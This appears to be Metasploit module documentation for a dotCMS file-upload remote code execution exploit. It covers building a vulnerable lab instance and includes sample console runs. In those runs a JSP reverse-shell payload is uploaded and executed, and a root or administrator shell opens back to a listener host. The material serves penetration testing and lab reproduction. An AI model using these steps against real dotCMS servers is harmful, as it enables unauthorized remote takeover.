 ## Description
This module exploits an arbitrary file upload vulnerability in dotCMS versions before 22.03, 5.3.8.10, 21.06.7 in each 
respective stream. The module uploads a jsp payload to the tomcat ROOT directory. It then executes the payload to 
return a reverse shell.
## Vulnerable Application

### Clone and build a vulnerable version of dotCMS:
This requires Java 1.8 to be installed and JAVA_HOME to be set (see below for per OS instructions) 
1. `git clone https://github.com/dotCMS/core.git`
1. `cd core`
1. `git checkout 7d604e5 (this is vulnerable version 21.06)`
1. `cd dotCMS/`
1. `./gradlew createDist`
```
Starting a Gradle Daemon (subsequent builds will be faster)

<output truncated>

BUILD SUCCESSFUL in 12m 53s
21 actionable tasks: 19 executed, 2 up-to-date
```

If the build was successful you should now have a vulnerable 21.06 linux and windows instance:
```
msfuser@ubuntu:~/core/dotCMS$ ls -l ../dist-output/
total 811132
-rw-rw-r-- 1 msfuser msfuser 413134562 May 20 10:22 dotcms_21.06.tar.gz
-rw-rw-r-- 1 msfuser msfuser 417462181 May 20 10:24 dotcms_21.06.zip
```

Inside each of the above compressed directories exists a directory `dotserver` which contains the vulnerable app.

### Ubuntu 20.04 install

#### Install JAVA 1.8 

1. `export JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"`
1. `export PATH=$JAVA_HOME/bin:$PATH`
1. `sudo apt-get install openjdk-8-jre`

#### Install Postgres 

1. `sudo apt install postgresql -y`
1. `sudo -u postgres psql`
1. Change the default database, username and password from `dotcms` to `postgres` (or create the db and user `dotcms`).
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/db.properties`
```
##Postgres default configuration
driverClassName=org.postgresql.Driver
jdbcUrl=jdbc:postgresql://localhost/postgres
username=postgres
password=postgres
```

#### Install Elastic Search

1. `sudo apt install apt-transport-https ca-certificates wget`
1. `wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo apt-key add -`
1. `sudo sh -c 'echo "deb https://artifacts.elastic.co/packages/7.x/apt stable main" > /etc/apt/sources.list.d/elastic-7.x.list'`
1. `sudo apt update`
1. `sudo apt install elasticsearch`
1. `sudo systemctl daemon-reload `
1. `sudo systemctl enable elasticsearch.service`
1. `sudo systemctl start elasticsearch.service`
1. `sudo systemctl status elasticsearch.service`
1. Edit `dotcms-config-cluster.properties` to ensure the following properties are set:
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/dotcms-config-cluster.properties`
```
ES_ENDPOINTS=http://localhost:9200

ES_PROTOCOL=http
ES_HOSTNAME=localhost
ES_PORT=9200

ES_TLS_ENABLED=false
```

#### Run dotCMS 

1. `cd dotserver/tomcat-9.0.41/bin/`
1. `chmod 755 *.sh`
1. `catalina.sh run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

### Windows 10 install

#### Install Java 1.8

1. Download and follow wizard to install:
    https://www.oracle.com/java/technologies/downloads/#license-lightbox

#### Install Elasticsearch 8.2.0

Download and follow wizard to install:
https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.2.0-windows-x86_64.zip dotcms-config-cluster.properties
1. Ensure dotcms-config-cluster.properties contains the same properties as specified above

#### Install Postgres 10.21

1. Download and follow wizard to install:
    https://www.enterprisedb.com/postgresql-tutorial-resources-training?uuid=ea5c8104-3940-4ed1-b427-81cf19781581&campaignId=70138000000rYFmAAM
1. Ensure db.properties contains the same properties as specified above

#### Run dotCMS

1. `cd dotserver\tomcat-9.0.41\bin\`
1. `catalina.bat run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

## Verification Steps
1. `use multi/http/dotcms_file_upload_rce`
2. `set RHOSTS [ips]`
3. `set LHOST [ips]`
4. `run`

## Scenarios

### Ubuntu 20.04 dotCMS 21.06:
```
msf6 > use exploit/multi/http/dotcms_file_upload_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.227
rhosts => 172.16.199.227
msf6 exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[+] Deleted ../webapps/ROOT/XZhKXIssjD.jsp
[+] Deleted ../webapps/ROOT/M4NYE9Kb.jsp
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.227:39610) at 2022-05-20 15:01:25 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.13.0-41-generic #46~20.04.1-Ubuntu SMP Wed Apr 20 13:16:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Windows 10 dotCMS 21.06:
```
msf6 > use dotcms_file_upload_rce
[*] Using exploit/multi/http/dotcms_file_upload_rce
msf6 exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.231
rhosts => 172.16.199.231
msf6 exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[!] Tried to delete ../webapps/ROOT/AkqMhxCZWr.jsp, unknown result
[!] Tried to delete ../webapps/ROOT/xdPfn9JTdu33X.jsp, unknown result
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.231:50016) at 2022-05-20 12:41:36 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19042.1706]
(c) Microsoft Corporation. All rights reserved.
-----


C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>whoami
whoami
desktop-h1lncdm\administrator

C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>systeminfo
systeminfo

Host Name:                 DESKTOP-H1LNCDM
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042

<output truncated>
```
Note on windows the module reports an unknown result when trying to delete the files though it does successfully 
